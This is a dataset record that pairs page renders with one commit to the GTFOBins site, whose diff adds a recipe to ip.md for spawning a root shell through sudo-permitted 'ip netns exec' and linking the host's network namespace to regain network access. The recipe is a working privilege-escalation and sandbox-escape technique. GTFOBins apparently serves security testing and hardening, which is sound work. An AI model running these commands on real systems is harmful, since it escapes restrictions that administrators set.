

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ip.md, in a window 1280 px wide. Shown: the whole page at 80% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1262 px from its top, so only the background shows below that.

Commit message:
Update ip.md with to break out of restricted network namespace
Add command to allow access to interfaces in restricted namespace without affecting host networking

Co-authored-by: Andrea Cardaci <cyrus.and@gmail.com>

```diff
--- a/_gtfobins/ip.md
+++ b/_gtfobins/ip.md
@@ -24,4 +24,12 @@ functions:
         sudo ip netns add foo
         sudo ip netns exec foo /bin/sh
         sudo ip netns delete foo
+    - description: This only works for Linux with CONFIG_NET_NS=y. This version also grants network access.
+      code: |
+        sudo ip netns add foo
+        sudo ip netns exec foo /bin/ln -s /proc/1/ns/net /var/run/netns/bar
+        sudo ip netns exec bar /bin/sh
+        sudo ip netns delete foo
+        sudo ip netns delete bar
+
 ---
```
